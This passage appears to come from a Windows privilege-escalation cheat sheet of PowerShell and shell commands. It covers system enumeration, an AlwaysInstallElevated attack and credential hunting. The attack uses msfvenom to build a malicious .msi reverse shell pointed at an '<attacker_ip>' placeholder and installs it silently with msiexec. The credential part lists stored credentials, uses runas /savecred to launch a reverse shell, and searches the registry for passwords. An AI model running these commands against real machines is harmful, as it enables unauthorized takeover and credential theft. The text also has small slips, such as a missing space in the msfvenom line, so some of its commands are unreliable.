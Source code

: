 ### Network connections

```powershell
# List all listened ports
$ netstat -ano
```

### Scheduled tasks

```powershell
# List all scheduled tasks
$ schtasks /query /fo LIST /v
```

### AlwaysInstallElevated

.msi files can run with the higher privileges.

```powershell
# Required registry values (both should be set)
$ reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

```bash
# Generate malicious .msi file
$ msfvenom -p windows/x64/shell_reverse_tcpLHOST=<attacker_ip> LPORT=<port> -f msi -o <name_file>.msi
# Don't forget to set a meterpreter handler listener
```

```powershell
# Execute file
$ C:\Users\user\Desktop>msiexec /quiet /qn /i 
$ C:\Windows\Temp\malicious.msi
```

### Passwords

```powershell
# List credentials
$ cmdkey /list
$ runas /savecred /user:admin reverse_shell.exe

# Registry keys
$ reg query HKLM /f password /t REG_SZ /s
$ reg query HKCU /f password /t REG_SZ /s
```

### Drivers and applications

```powershell
# List all installed drivers
$ driverquery

# Dump information about installed software
$ wmic product
$ wmic product get name,version,vendor

# BETTER WAY
$ wmic service list brief

# Only running
$ wmic service list brief | findstr  "Running"

# Get more information about service
$ sc qc <service>
$ sc qc RemoteMouseService
```
